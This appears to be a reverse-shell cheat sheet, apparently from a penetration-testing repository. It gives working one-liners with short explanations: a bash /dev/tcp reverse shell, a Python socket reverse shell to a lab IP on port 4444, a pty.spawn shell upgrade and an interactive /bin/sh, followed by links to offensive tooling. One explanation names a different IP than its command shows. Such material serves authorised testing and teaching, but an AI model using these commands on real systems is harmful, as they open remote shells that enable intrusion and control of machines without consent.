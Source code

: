 Command:

bash -i >& /dev/tcp/192.168.56.101/8080 0>&1

Explanation:

This command uses bash to create a network connection with the IP address 192.168.56.102 over port 8080. In order for this to work, the host 192.168.56.102 must have some sort of listener like netcat or Metasploit's multi/handler actively listening on port 8080. Bash -i makes an interactive instance of bash. First of all, there are three default files in bash. stdin which is standard input such as from the keyboard, stdout which is standard output such as the terminal, and stderr which is standard error, which is where errors are ouput. The file descriptors for stdin, stdout, and stderr are 0, 1, and 2 respectively. The >& causes it to send standard output and standard error to be sent through the connection /dev/tcp/192.168.56.101/8080, and 0>&1 sets standard input to be read through the connection. 


Command:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Explanation:

This next command is a simple one liner that uses Python code to import the socket library, and initiate a network socket to the IP address and port specified within s.connect, which will connect to the listening server. 


Command:

python -c 'import pty; pty.spawn("/bin/sh")'

Explanation:

Let's take a look at this simple command here. This is a Python one liner to import the pty library which handles pseudo terminal utilities, and attempts to spawn a /bin/sh shell.


Command:

/bin/sh -i

Explanation:

This command spawns a /bin/sh shell by trying to run the command interactively with the -i switch.


Resources:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.tldp.org/LDP/abs/html/io-redirection.html
https://unix.stackexchange.com/questions/116010/meaning-of-bash-i-dev-tcp-host-port-01
https://netsec.ws/?p=337
https://github.com/alexxy/netdiscover
https://highon.coffee/blog/nmap-cheat-sheet/
https://cirt.net/Nikto2
https://tools.kali.org/web-applications/dirb

